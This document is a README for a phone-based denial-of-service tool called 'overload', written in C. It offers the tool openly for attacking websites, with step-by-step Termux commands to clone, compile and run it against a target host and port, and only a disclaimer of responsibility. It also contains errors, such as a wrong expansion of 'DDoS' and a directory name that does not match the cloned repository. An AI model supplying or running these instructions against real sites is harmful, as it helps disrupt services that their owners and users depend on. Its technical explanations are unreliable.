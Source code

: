 # Termux-Dos-attacker-tool 
DoS Attack Using Termux

DDos Is A Cyberattack (Denial Distribution Of Service) With the help of Ddos Attack One Can Shutdown A whole Website(if successful), In ddos Attacker makes botnet and Send programmed request to target servers

What is the `overload` Tool? This Tool is an open source DDOS Attack Tool written in C programming Language.

Usually this attack can also be done using other linux based OS.

Site Crash with Termux? Since this process is done by Telephone, that is, via Termux, the Site does not collapse easily, but when this process is performed with more than 1 person, there may be a slowdown in the Site.

Since this is a minor attack, it does not affect Large sites (Google, Facebook, etc.) Termux `overlod` installation? Download Termux from f-droid and follow those commands below

# commands⬇️

 - `apt update`
 - `apt upgrade`
 - `pkg install git`
 - `pkg install clang`
 - `git clone https://github.com/abirhosenakram/Termux-Dos-attacker-tool`
 - `cd overload`
 - `clang overload.c -o overload`
 - `./overload www.example.com 80`

# ⚠we aren't responsible for any illegal activities 
